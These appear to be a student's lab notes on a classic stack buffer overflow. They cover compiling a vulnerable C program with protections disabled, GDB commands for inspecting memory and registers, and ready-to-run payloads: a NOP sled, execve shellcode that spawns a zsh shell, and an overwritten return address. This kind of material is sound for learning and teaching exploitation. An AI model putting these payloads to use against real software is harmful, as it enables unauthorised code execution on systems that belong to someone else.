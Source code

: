 Commands

## compile the code
gcc -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g vuln.c -o vuln

## clean the environment, debug
chmod +x envexec.sh
./envexec.sh -d vuln

## clean the environment, execute exploit
./envexec.sh /root/vuln $(python ...)

## run gdb, load a program to analyze
gdb vuln

GDB commands

## quit the debugger
quit

## clear the screen
ctrl + l
shell clear

## show debugging symbols, ie. code
list
list main

## show the assemlby code
disas main

## examine information
info os

info functions

info variables

## run the program, with input
run Hello

## run the overflow, seg fault
run $(python -c 'print "\x41" * 508')

## examine memory address
x/200x ($esp - 550)

## confirm overwrite of ebp register
info registers

## find a location, below ESP (stack pointer)
EDI = destination index, string / array copying
ESI = source index, string + array copying

EIP = index pointer, next address to execute
EBP = stack base pointer
ESP = stack pointer, starting in high memory, going down
EDX = data register

## run the overflow, launch a zsh shell
run $(python -c 'print "\x90" * 426 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x51\x51\x51\x51" * 10')

## examine memory address
x/200x ($esp - 550)

## convert memeory address to little endian
ecx            0xbfffffc0	-1073741888
edx            0xbffffc3a	-1073742790
ebx            0xb7fb8000	-1208254464
esp            0xbffffc40	0xbffffc40
ebp            0x51515151	0x51515151

0xbf ff fa ba
\xba\xfa\xff\xbf


## run the exploit, execut /bin/zsh5
run $(python -c 'print "\x90" * 425 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\xba\xfa\xff\xbf" * 10
